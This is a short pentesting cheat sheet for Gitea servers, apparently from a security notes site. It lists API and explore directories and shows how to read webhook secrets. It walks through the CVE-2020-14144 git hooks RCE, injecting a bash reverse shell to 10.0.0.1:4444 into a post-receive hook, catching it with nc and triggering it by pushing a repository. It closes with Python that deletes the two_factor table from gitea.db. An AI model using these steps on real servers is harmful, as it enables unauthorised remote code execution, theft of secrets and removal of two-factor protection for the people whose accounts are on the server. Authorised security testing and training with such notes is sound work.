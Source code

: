 ```yaml
---
title: Gitea Pentesting
description: Gitea is a forge software package for hosting software development version control using Git.
tags:
    - Web
refs:
date: 2023-02-05
draft: false
---
```


## Common Directories

```bash
/api/swagger
/explore/organizations
/explore/repos
/explore/users
```

<br />

## Investigation

### Get Secrets in Web Hooks

In the existing repository, we may find the secret value in the **repository → Settings → Web Hooks**.

<br />

## Git Hooks Remote Code Execution (RCE)

It is [CVE-2020-14144](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) .

### 1. Login

Access to the Gitea dashboard and login as the existing account.

### 2. Create a New Repository

### 3. Go to the Repository’s Settings

In the new repository we’ve created, go to **Settings → Git Hooks → post-receive**.

### 4. Update to the Reverse Shell Payload

In the post-receive edit page, inject the payload as below:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.0.0.1/4444
```

### 5. Start Listener in Terminal

To receive the outcoming connection of the git hook, start listener.

```bash
nc -lvnp 4444
```

### 6. Create the New Repository in Terminal

```bash
mkdir test
cd test
touch README.md
git init
git add README.md
git commit -m "first commit"
git remote add origin https://<target-ip>/<username>/test.git
git push -u origin master
```

After pushing, git hook triggered and execute the reverse shell command.  
Now we should get a shell.

<br />

## Delete the Two-Factor

```sh
victim@machine:/gitea/gitea$ python3

>>> import sqlite3
>>> conn=sqlite3.connect('gitea.db')
>>> conn.execute('delete from two_factor')
>>> conn.commit()
>>> conn.close()
```